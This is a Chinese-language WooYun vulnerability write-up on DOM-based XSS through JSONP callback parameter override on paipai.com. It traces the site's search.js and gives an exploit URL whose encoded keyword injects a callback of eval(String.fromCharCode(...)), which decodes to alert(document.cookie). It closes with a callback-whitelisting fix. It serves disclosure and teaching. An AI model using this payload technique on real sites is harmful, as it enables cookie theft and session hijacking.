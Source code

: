 # 12\. Dom Xss 进阶 [路径 con]

# 12\. Dom Xss 进阶 [路径 con]

> 来源：[12\. Dom Xss 进阶 [路径 con]](http://www.wooyun.org/bugs/wooyun-2010-016279)

## 简要描述

我不是萝莉 con,我是路径 con。

一些程序员会动态的加载 json 数据，同域的时候，可以使用 ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域 请求。跨域请求数据的手段中，有一种叫做 jsonp。

用代码表示的话，就是 `somescript.src="http://otherdomain.com/xx?jsonp=callback"`

某些时候，程序员会在调用外部数据的时候带上可控的参数。 `somescript.src="http://otherdomain.com/xx?jsonp=callback&id="+id;` 如果这个 id 我们可控，将可能带来 XSS 问题。

## 详细说明

本次教程，就不像前面的一样，去细说操作过程了，前面的几次教程也基本将常用操作全部介绍到了。直接来看例子。

1\. 在扫描过程中，经常遇到下面的例子。

![image](img/Image_059.jpg)

2\. 初看看，这种情况，似乎没有什么利用价值。

3\. 但是我们不难想象，如果这个地址是我们可控的话，一样会带来威胁。

地址的可控可以分为 3 个层面。

3.1 `script src="完全可控"` ,这种就简单了，直接将地址换为我们的 JS 地址

3.2 `script src="/path/xxx/[路径可控]/1.js"` 这种要利用的话，需要同域名下有可控的文件。可控文件又分为 2 种。

3.2.1 可以直接上传文本至同域名下，不一定要是 HTML 文件，需要上传点有过滤缺陷。

3.2.2 参数可控，利用可用的 json 接口。

最终变为 `script src="/path/xxx/.../yyy/xx.json?callback=alert(1)"`

3.3 `script src="/xxxx/json.php?callback=xxxx&param1=yyy&param2=[参数可控]"`

这种情况，和 3.2.2 类似，如果参数可控，且 json 的参数没有很好的过滤时。我们就有机可乘了。

4\. 本文以拍拍网一处 XSS 为例，来描述以上可能性。

扫描器扫到的点，见步骤 1 中的图。进一步，我们可以通过抓包的方式，看到页面在打开时，所加载的外部 JS 文件地址。

```
http://sse1.paipai.com/comm_json?callback=commentListCallBack&dtag=1&ac=1&cluster=1&sellquality=0&NewProp=&Property=256&PageNum=1&PageSize=48&OrderStyle=80&Address=&SaleType=1&degree=1&AuthType=2&BeginPrice=&EndPrice=&KeyWord=2012%20%D0%C2&OnlineState=2&Paytype=4&ranking=&sClassid='aaaaaaaa&t=1354854681 
```

我们打开这个 JSON，用扫描反射型的方式，可以测试出，callback, dtag 以及 ranking 可控。但均无法使用`<`, `>`，也就是说，这个 JSON 接口本身是无 XSS 风险的。 此外 dtag, 和 ranking 都在双引号里面，我们在后续无法进行利用，而 callback 则在最前面，比较好控制。 我们可以想象下，如果我们可以让这个页面调用：

```
http://sse1.paipai.com/comm_json?callback=alert(1); 
```

那么将会产生 XSS。

那么怎么让页面调用上面的情况呢？

4.1 直接控制 callback 参数，但是从实际情况来看，我们此处无法直接控制它，【失败】

4.2 将后面的参数, `param=xxx` 修改为 `param=xxx&callback=alert(1)` ，从而覆盖前面的 callback

5\. 上面说到的第 2 种方案，似乎可行。但是实际上还是有问题的。

譬如我们页面上的 type 参数，对应着 json 的 sclassid 参数。 我们访问以下地址：

```
http://bag.paipai.com/search_list.shtml?type=&callback=alert(1);&np=11&pro=256&searchtype=2&cs=0010000&keyword=&PTAG=20058.13.13 
```

其实很明显上面这样是不行的。。因为 `&` 本身就是参数分隔符。这样写 type 就为空了 可能很快就有人想到另外一个写法：`&` 写为 `%26`

```
http://bag.paipai.com/search_list.shtml?type=%26callback=alert(1);&np=11&pro=256&searchtype=2&cs=0010000&keyword=&PTAG=20058.13.13 
```

很好，但是实际上，你会发现，访问的 json 接口的参数也还是原封不动的 `%26`，而不是所希望的 `&`

![image](img/Image_060.jpg)

6\. 为了看看参数是怎么从页面，传递到了 comm_json 这个接口上的。我们定位到以下代码。

```
http://static.paipaiimg.com/js/search.js?t=20121108 
```

```
function init() {
    var keyword = decodeURIComp($getQuery('keyword')), type = $getQuery('type'),
    searchtype = $getQuery('searchtype'); 
    option.keyword = keyword; option.classId = type;
    option.searchType = searchtype || option.searchType; 
    option.beginPrice = $getQuery('bp');
    option.endPrice = $getQuery('ep');
    option.NewProp = $getQuery('np') || $getQuery('newprop'); 
    option.property = $getQuery('pro') || option.property; 
    option.cid = $getQuery('cid');
    option.Paytype = $getQuery('pt') || option.Paytype; 
    option.hongbaoKeyword = $getQuery('hb');
    option.conditionStatus = $getQuery('cs') || option.conditionStatus; 
    option.showType = $getQuery('show') || option.showType;
    option.mode = $getQuery('mode') || option.mode; 
    option.address = decodeURIComp($getQuery('adr'));
    option.orderStyle = $getQuery('os') || option.orderStyle || 80; 
    option.hideKeyword = $getQuery('hkwd') == "true" ? true: false; 
    option.ptag.currentPage = $getQuery('ptag') || $getQuery('PTAG'); 
    var pageIndex = $getQuery('pi'),
    pageSize = $getQuery('ps');
    option.pageIndex = (pageIndex && $isPInt(pageIndex)) ? pageIndex * 1: option.pageIndex; 
    option.pageSize = (pageSize && $isPInt(pageSize)) ? pageSize * 1: option.pageSize;
}; 
```

在这个文件里，我们很容易的看出，当前页面参数和 json 参数的对应关系 `option.JSON 参数=$getQuery("页面参数")`

7\. 一个函数让我眼前一亮啊，`decodeURIComp`。。也就是说，传入的 keyword，会解码一次。

也就是说，如果我们 `keyword=%26callback=alert(1);` decodeURIComp 就会变为 `&callback=alert(1);` 为了证明我们的想法：我们直接写利用代码。注意 `keyword=`那一部分

```
http://bag.paipai.com/search_list.shtml?type=213280&np=11&pro=256&searchtype=2&cs=0010000&keyword=%26callback=eval(St ring.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));void&PTAG=20058.13.13 
```

8\. 看效果：弹了吧

![image](img/Image_061.jpg)

抓包可以看到，被动态加载的 keyword 参数，我们在后面插入了一个 callback，覆盖了前面的 callback

![image](img/Image_062.jpg)

同样，看到返回的 comm_json 的内容

![image](img/Image_063.jpg)

## 修复方案

1\. 也可对 jsonp 接口的 callback 参数进行更加严格的字符控制，一般的 callback，只需要允许，字母，数字+下划线即可。